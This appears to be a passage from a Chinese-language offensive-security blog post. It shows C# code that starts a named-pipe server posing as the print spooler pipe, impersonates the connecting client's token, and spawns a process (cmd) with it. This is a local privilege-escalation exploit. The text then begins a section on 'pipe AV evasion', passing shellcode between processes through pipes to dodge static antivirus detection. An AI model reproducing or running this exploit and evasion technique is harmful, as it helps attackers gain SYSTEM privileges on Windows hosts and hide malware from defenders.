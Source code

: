 ```
        while (i > 0)
        {
            for (int j = 0; j < numThreads; j++)
            {
                if (servers[j] != null)
                {
                    if (servers[j].Join(250))
                    {
                        Console.WriteLine("Server thread[{0}] finished.", servers[j].ManagedThreadId);
                        servers[j] = null;
                        i--;    // decrement the thread watch count
                    }
                }
            }
        }
        Console.WriteLine("\nServer threads exhausted, exiting.");
    }

    private static void ServerThread(object data)
    {
        NamedPipeServerStream pipeServer =
            new NamedPipeServerStream("\\\\.\\pipe\\xxx\\pipe\\spoolss", PipeDirection.InOut, numThreads);

        int threadId = Thread.CurrentThread.ManagedThreadId;

        // Wait for a client to connect
        pipeServer.WaitForConnection();

        Console.WriteLine("Client connected on thread[{0}].", threadId);
        try
        {

            IntPtr hpipe = pipeServer.SafePipeHandle.DangerousGetHandle();
            //Console.WriteLine(hpipe);
            createprogress.impersonateHandle(hpipe);
            createprogress.CreateProcessbytoken();

        }
        // Catch the IOException that is raised if the pipe is broken
        // or disconnected.
        catch (IOException e)
        {
            Console.WriteLine("ERROR: {0}", e.Message);
        }
        //pipeServer.Close();
    }
}

```

用的进程直接打开cmd，测试同样可行，也包含通过token复制再通过token打开进程，修改316行执行函数即可。

## pipe免杀

思想与之前的powershell后门其实相似，把shellcode通过pipe在进程之间传输，以避免某些静态查杀。

